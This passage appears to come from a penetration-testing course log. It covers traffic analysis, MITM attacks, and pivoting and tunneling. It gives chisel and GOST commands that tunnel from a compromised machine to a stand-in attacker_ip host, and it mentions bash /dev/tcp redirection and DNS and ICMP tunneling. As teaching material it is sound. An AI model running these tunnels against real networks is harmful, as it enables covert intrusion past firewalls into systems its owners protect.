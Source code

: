 - **Traffic Analysis** → Capturing and studying packets with Wireshark or tcpdump to spot weaknesses.

- **MITM Attacks** → Spoofing traffic between hosts and servers to intercept or alter communications.

**Pivoting: Moving Through the Network**

Once inside one machine, the next challenge is to pivot — use the compromised host as a bridge to access other internal systems.

Tools that make this possible:

- **Chisel** → A fast TCP/UDP tunnel, often used for port forwarding.

*Example:*

On attacker's machine:
`chisel server -p 8000 --reverse`

On compromised machine:
`chisel client attacker_ip:8000 R:8080:127.0.0.1:22`

This sets up a reverse tunnel so the attacker can access the target’s SSH port (22) through port 8080 on their own machine.

- **GOST** → A more advanced tunneling tool that supports encryption and multiple proxy modes.

*Example:*

`gost -L=:1080 -F=socks5://attacker_ip:1080`


This sets up a **SOCKS5 proxy** that routes traffic securely through the compromised host.

**Auxiliary Tools:**

- **socat** → General-purpose relay for networking, useful for tunneling.

- **Plain old bash** → Sometimes used with redirection (`/dev/tcp/host/port`) for quick-and-dirty pivoting.

We also explored covert tunneling techniques that use protocols in *unintended* ways:

- **DNS Tunneling** → Data is encoded inside DNS queries/responses, allowing attackers to bypass firewalls that allow DNS traffic.

- **ICMP Tunneling** → Data is hidden inside ICMP packets (like ping). Since ICMP is often overlooked, it can be abused for sneaky communication.

Getting inside a network is one thing. **Moving deeper without getting caught is another game entirely.** Pivoting and tunneling techniques show how attackers can turn one foothold into full internal access — often by reusing “normal” protocols in abnormal ways.

---

### Day 7 - Network Reconnaissance and Compromise of Windows Machines & Privilege Escalation on Local Network Nodes (OS Windows)